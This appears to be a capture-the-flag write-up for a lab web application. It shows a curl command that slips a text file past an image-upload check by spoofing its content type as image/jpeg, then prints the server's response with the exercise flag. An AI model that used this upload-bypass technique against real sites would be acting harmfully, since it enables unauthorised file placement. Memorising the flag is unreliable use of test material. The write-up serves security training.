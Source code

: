 # First step

After checking the http://10.12.180.85/index.php?page=upload page, i see that nothing happens after uploading an image or uploading a file.txt, there is just "/tmp/image.jpg succesfully uploaded."or " Your image was not uploaded. " message, nothing special, so what about uploading an image from your terminal by curl

# How to do that

Go to the folder your image stored in, run:

```bash
curl -X POST -F "uploaded=@payload.txt;type=image/jpeg" -F "MAX_FILE_SIZE=100000" -F "Upload=Upload" http://10.12.181.103/index.php\?page\=upload | grep 'flag'
```

then the result is:
```bash
 % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3157    0  2750  100   407    538     79  0:00:05  0:00:05 --:--:--   703
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/payload.txt succesfully uploaded.</pre>

```

here is the flag 
```
46910d9ce35b385885a9f7e2bXXXXXXXXXXXXX
```
